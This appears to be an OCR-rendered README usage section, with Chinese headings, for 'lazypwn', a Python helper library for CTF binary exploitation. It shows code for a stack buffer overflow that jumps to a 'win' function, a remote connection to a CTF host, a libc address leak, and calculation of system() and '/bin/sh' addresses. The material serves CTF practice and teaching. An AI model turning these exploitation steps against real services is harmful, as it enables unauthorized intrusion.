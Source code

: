 使用示例

```
基础利用
from lazypwn import PwnHelper

ph = PwnHelper("./chall")
ph.connect()

# 
```

# 缓冲区溢出

```
payload = b"A" * 64
payload += p64(ph.sym("win"))

ph.sl(payload)
ph.interactive()

带libc的利用
python

from lazypwn import PwnHelper

ph = PwnHelper(
    "./chall", 
    libc_path="./libc.so.6",
    remote_host="ctf.example.com",
    remote_port=1337
)
ph.connect()
```



# 泄露libc地址
```
ph.sla(b">", b"1")
leak_addr = ph.l64()
libc_base = ph.libc_base_leak(leak_addr, "printf")
ph.leak("libc_base", libc_base)
```



# 计算system地址
```
system = libc_base + ph.libc.sym["system"]
binsh = libc_base + next(ph.libc.search(b"/bin/sh")) 
```
